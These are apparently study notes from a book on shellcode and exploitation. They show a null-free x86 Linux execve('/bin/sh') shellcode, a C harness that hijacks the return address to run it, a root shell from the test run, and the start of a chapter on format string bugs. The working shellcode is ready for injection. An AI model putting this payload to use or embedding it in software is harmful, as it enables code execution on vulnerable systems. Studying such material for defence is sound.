 ```
 80480aa: 41			inc    %ecx
 80480ab: 41			inc    %ecx
 80480ac: 41			inc    %ecx
 80480ad: 4b			dec    %ebx
 80480ae: 4b			dec    %ebx
 80480af: 4b			dec    %ebx
 80480b0: 4b			dec    %ebx
```
- Notice that we have no nulls and no hardcoded addresses.

- The final step is to create the shellcode and plug it into a C program:
```
char shellcode[] =
    “\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46”
	“\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1”
	“\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41”
	“\x4b\x4b\x4b\x4b”;
	
int main() {
    int *ret;
    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;
}
```
- Testing to ensure our shellcode works:
```
[root@linux]# gcc execve2.c -o execve
[root@linux]# ./execve
sh-2.05b#
```

- Now you have working, injectable shellcode. If you need to pare down the shellcode, you can sometimes remove the placeholder opcodes at the end of shellcode, as follows:
```
char shellcode[] =
	“\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46”
	“\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1”
	“\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68”;
```

* * * 
# Chapter 4: Introduction to Format String Bugs
- A format string bug occurs when user-supplied data is included in the format specification string of one of the printf family of functions, including:
	- printf
	- fprintf
	- sprintf
	- snprintf
	- vfprintf
	- vprintf
	- vsprintf
	- vsnprintf
- and any similar functions on your platform that accept a string that can con- tain C-style format specifiers, such as the wprintf functions on the Windows platforms.
- The attacker supplies a number of format specifiers that have no corresponding arguments on the stack, and values from the stack are used in their place. 
	- This leads to information disclosure and potentially the execution of arbitrary code.
